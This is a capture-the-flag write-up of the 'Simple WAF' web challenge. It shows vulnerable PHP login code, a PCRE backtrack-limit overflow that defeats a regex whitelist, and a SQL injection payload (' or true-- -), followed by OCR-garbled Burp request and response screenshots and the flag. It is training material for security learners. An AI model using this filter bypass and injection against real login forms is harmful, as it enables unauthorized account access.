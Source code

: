 # Simple WAF
> i whitelisted input values so, i think iam safe : P

## About the Challenge
We got a website and the source code (You can download the source code [here](simple_waf_togive.zip)). The source code is pretty simple:

```php
require_once("db.php");

function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}


if(isset($_POST['login-submit']))
{
	if(!empty($_POST['username'])&&!empty($_POST['password']))
	{
        $username=$_POST['username'];
		$password=md5($_POST['password']);
        if(waf($username))
        {
            die("WAF Block");
        }
        else
        {
            $res = $conn->query("select * from users where username='$username' and password='$password'");
                                                                    
            if($res->num_rows ===1)
            {
                echo "0xL4ugh{Fake_Flag}";
            }
            else
            {
                echo "<script>alert('Wrong Creds')</script>";
            }
    }

	}
	else
	{
		echo "<script>alert('Please Fill All Fields')</script>";
	}
}
```

This website is vulnerable to SQL injection, but there's a waf() function that we need to bypass in order to perform SQL injection


[Image extracted text: Request
Response
Pretty
Raw
Hex
3)
In
=
Pretty
Raw
Hex
Render
PosT
HTTP/1.1
HTTP/1.1
200
OK
2
Host
20.115.83.90:1339
2
Date:
Sun,
11
Feb
2024
01:39:57
GMT
3 Content-Length:
50
3
Server:
Apache/2.4.56
(Debian)
Cache-Control:
max-age-0
X-Powered-By: 
PHP/8.0.30
5
Upgrade-Insecure-Requests:
5 Content-Length:
6 Origin:
http://20 _
115.83.90
1339
6
Connection:
close
Content-Type
application/X-WWW-form-urlencoded
Content-Type:
text/html;
charset-UTF-8
User-Agent
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537.36
(KHTML ,
like
Gecko)
Chrome/121.0.6167
160
Safari/537.36
WAF
Block
Accept
text/html,application/xhtmltxml,application/xml;q-0.9, image/avif _
image/we
bp, image
apng,*/*;9=0.8,application/signed-exchange;v=b3;q=0.7
10
Referer:
http://20
115.83.90:1339
11 Accept-Encoding
gzip,
deflate,
br
12 Accept-Language:
en-US, en;q-0.9
13
Connection:
close
14
15
username=
ok
true -
~Gpassword-testalogin-submit=]


## How to Solve?
We need to overflow the `preg_match` function by supplying a lot of characters, followed by an SQL injection payload (e.g., `' or true-- -`)


[Image extracted text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
X-Powered-By
PHP/ 8 . 0
30
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
5
Vary:
Accept-Encoding
Reque
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Content-Length:
3913
AAAAAAAAA
Connection:
close
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Content-Type:
text/html;
charset-UTF-8
Reque
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
10
OxL4ugh{Oohh_You_Brok3_My_Whlte_List! ! !}
Reque
AAAAAAAAA
IAAAAAAAAAAA
11
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
12
<html lang="en">
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
13
<head>
Respo
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
14
<meta
charset="UTF-8">
AAAAAAAAA
IAAAAAAAAAAA
15
<meta
name="viewport
content="width-device-width,
initial-scale-1.0">
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
16
<title>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Ghazy Corp
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
~</title>
AAAAAAAAA
IAAAAAAAAAAA
17
<link
href="
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
https: //cdn.jsdelivr net/npm/bootstrap@5. 0 _
0-betal/dist/css/bootstrap.min.€
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
SS
rel-"stylesheet"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
18
<link
href-"https: //use. fontawesome
com/ releases/v5.7.2/css/all.css"
rel="
AAAAAAAAA
IAAAAAAAAAAA
stylesheet
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
19
<script src="
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
https: //cdn.jsdelivr.net/npm/bootstrap@5.0.0-betal/dist/js/bootstrap. bundle
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
min.js">
AAAAAAAAA
IAAAAAAAAAAA
</script>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
20
<script
src=" //code.jquery
com/ jquery-1.11.1.min.js">
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<1
script>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAA
IAAAAAAAAAAA
21
</head>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
22
~style>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
23
I* Importing
fonts
from GoogLe
*l
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
24
@importurl(
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
'https: / /fonts.googleapis. com/css2?family-Poppins:wght@300;400;500;600; 700;
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
800;9006display-swap' ) ;
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
25
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
26
Reset
*l
AAAAAAAAAAAAAAAAAAAAAAAAA
true:
Gpassword-test&log
n-submit=
27
Search
highlights
Search
highlights
ing]


```
0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}
```